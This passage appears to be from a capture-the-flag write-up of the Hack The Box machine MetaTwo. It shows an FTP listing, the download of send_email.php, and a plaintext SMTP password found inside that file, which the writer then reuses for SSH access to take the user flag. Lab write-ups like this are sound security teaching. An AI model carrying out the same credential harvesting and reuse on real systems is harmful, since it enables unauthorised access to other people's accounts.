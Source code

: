 ```
229 Entering Extended Passive Mode (|||18426|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   4 metapress.htb metapress.htb     4096 Oct  5  2022 PHPMailer
-rw-r--r--   1 metapress.htb metapress.htb     1126 Jun 22  2022 send_email.php
226 Transfer complete
ftp> get send_email.php
local: send_email.php remote: send_email.php
229 Entering Extended Passive Mode (|||9310|)
150 Opening BINARY mode data connection for send_email.php (1126 bytes)
100% |********************************************************************************|  1126        8.58 MiB/s    00:00 ETA
226 Transfer complete
1126 bytes received in 00:00 (12.67 KiB/s)
```

And inside the send_email.php file we find jnelson's password:

```
┌──(ryan㉿kali)-[~/HTB/MetaTwo]
└─$ cat send_email.php                                 
<?php
/*
 * This script will be used to send an email to all our users when ready for launch
*/

use PHPMailer\PHPMailer\PHPMailer;
use PHPMailer\PHPMailer\SMTP;
use PHPMailer\PHPMailer\Exception;

require 'PHPMailer/src/Exception.php';
require 'PHPMailer/src/PHPMailer.php';
require 'PHPMailer/src/SMTP.php';

$mail = new PHPMailer(true);

$mail->SMTPDebug = 3;                               
$mail->isSMTP();            

$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;                          
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";                           
$mail->SMTPSecure = "tls";                           
$mail->Port = 587;
```

Which we can use to SSH in with and grab the first flag:

![htb_metatwo_user.png](../assets/metatwo_assets/htb_metatwo_user.png)
